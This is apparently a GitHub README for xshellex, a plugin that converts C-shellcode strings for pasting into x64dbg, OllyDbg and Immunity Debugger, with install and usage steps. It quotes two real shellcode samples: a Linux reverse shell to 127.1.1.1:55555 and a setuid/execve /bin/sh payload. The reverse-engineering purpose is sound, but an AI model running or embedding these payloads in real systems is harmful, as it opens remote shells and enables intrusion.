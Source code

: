 
# Advanced git
MCS 2019


**WARNING**: the ugliest code in the world

With xshellex you can paste any kind of c-shellcode strings in x64dbg, ollydbg & immunity debugger. Also you can convert the "binary-copied-clipboard" to c-shellcode string.

This plugin uses shellex, my handy "C-shellcode to hex converter" tool for paste & execute shellcodes in gdb, windbg, radare2, ollydbg, 010 editor etc.
* https://github.com/David-Reguera-Garcia-Dreg/shellex

## Install

Just download https://github.com/David-Reguera-Garcia-Dreg/xshellex/releases/download/r0.1b/xshellex01b.zip

Extract the .zip

### x64dbg

Copy the release folder in the x64dbg folder.

Now check if you have installed:
* x64dbg\release\tcc
* x64dbg\release\shellex.exe
* x64dbg\release\x32\plugins\xshellex.dp32
* x64dbg\release\x64\plugins\xshellex.dp64

### ollydbg

Copy the ollydbg folder content to ollydbg path (I use C:\odbg110)

Now check if you have installed:
* C:\odbg110\tcc
* C:\odbg110\shellex.exe
* C:\odbg110\shellex.dll

### immunity debugger

Copy the immunity folder content to C:\Program Files (x86)\Immunity Inc\Immunity Debugger

Now check if you have installed:
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\tcc
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.exe
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.dll

## Use

Go to Plugins --> xshellex --> launch

Paste your c-shellcode string

Press enter

Press Control+Z

Copy the output to clipboard

![Alt text](launch.png)

Use x64dbg Binary Paste (right click in disasm)

![Alt text](binary_paste.png)

**WARNING**: In x64dbg you can use Paste ignore size BUT in ollydbg & immunity debugger you must select first a long area:

![Alt text](immunity.png)

![Alt text](ollydbg_paste.png)

## Converting binary-copied-clipboard to c-shellcode string

Select area

Right click --> Binary ---> Copy

![Alt text](binary_copy.png)

Go to Plugins --> xshellex --> clipboard to ....

![Alt text](clipboard_to_shellcode.png)

## Why this plugin?

In real world yummyPaste plugin ( https://github.com/0ffffffffh/yummyPaste ) cant works fine, because you have a lot of garbage to filter, just check shellcodes like

http://shell-storm.org/shellcode/files/shellcode-833.php
```
unsigned char code[] = \

"\x68"
"\x7f\x01\x01\x01"  // <- IP Number "127.1.1.1"
"\x5e\x66\x68"
"\xd9\x03"          // <- Port Number "55555"
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce";
```

https://www.exploit-db.com/exploits/13359
```
char sc[] = /* 7 + 23 = 30 bytes */
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";
```

## Compilation

Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

**WARNING**: To convert ollydbg plugin to immunity debugger plugin just use auxtools\PluginFix

